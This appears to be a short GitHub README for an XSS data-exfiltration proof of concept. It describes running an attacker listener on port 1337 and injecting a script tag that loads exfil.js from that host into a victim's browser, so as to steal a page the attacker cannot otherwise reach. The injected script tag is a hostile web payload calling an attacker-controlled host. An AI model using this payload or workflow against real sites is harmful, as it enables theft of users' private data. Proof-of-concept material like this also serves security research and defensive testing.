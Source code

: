 # xss-exfil POC
Exfiltrate sensitive data from victim via XSS. It will steal contents of http://127.0.0.1:9999/sensitive.html which is otherwise not accessible by the attacker.

# Steps
1. Start your server. It will listen for incoming requests on port 1337 and print contents of the sensitive data.
   ```bash
   ./xss-exfil.py
   ```
2. Load the `exfil.js` script on victim's browser via XSS
   ```html
   <script type="text/javascript" src="http://127.0.0.1:1337/exfil.js"></script>
   ```
3. Profit

## Note:
1. Server at port 9999 => Server vulnerable to XSS
2. Server at port 1337 => Attacker controlled listener
3. This is just a proof of concept and may throw exceptions in some cases.

If you have any ideas, let me know :)